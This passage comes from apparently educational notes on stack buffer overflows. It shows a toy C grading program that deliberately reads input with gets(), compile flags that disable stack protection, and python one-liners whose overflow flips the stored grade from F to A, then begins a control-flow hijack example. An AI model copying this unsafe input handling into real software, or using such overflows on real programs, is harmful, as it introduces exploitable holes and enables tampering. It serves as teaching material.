 ### Buffer Overflow Example:

**grade.c:**
```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) {
    volatile char grade[] = "F";
    char buf[19];
    printf("Enter your student ID: ");
    gets(buf);
    printf("Hello %s! Your grade is %s!\n", buf, grade);
    return 0;
}
```

**Compilation:**
```bash
gcc -m32 -g -fno-stack-protector -w -o grade grade.c
```

**Exploitation:**
```bash
# Change grade from F to A
python3 -c 'print("A"*20)' | ./grade

# More controlled approach
python3 -c 'print("a1112407\0" + "A"*11)' | ./grade
```

---

## 9. Advanced Topics

### Stack Overflow to Change Program Flow

**Example Program:**
```c
void win() {
    printf("You win!\n");
}

void hello() {
    char buf[17];
    printf("What is your name? ");
    gets(buf);
    printf("Hello %s!\n", buf);
}

int main(int argc, char **argv) {
    hello();
    return 0;
}
```
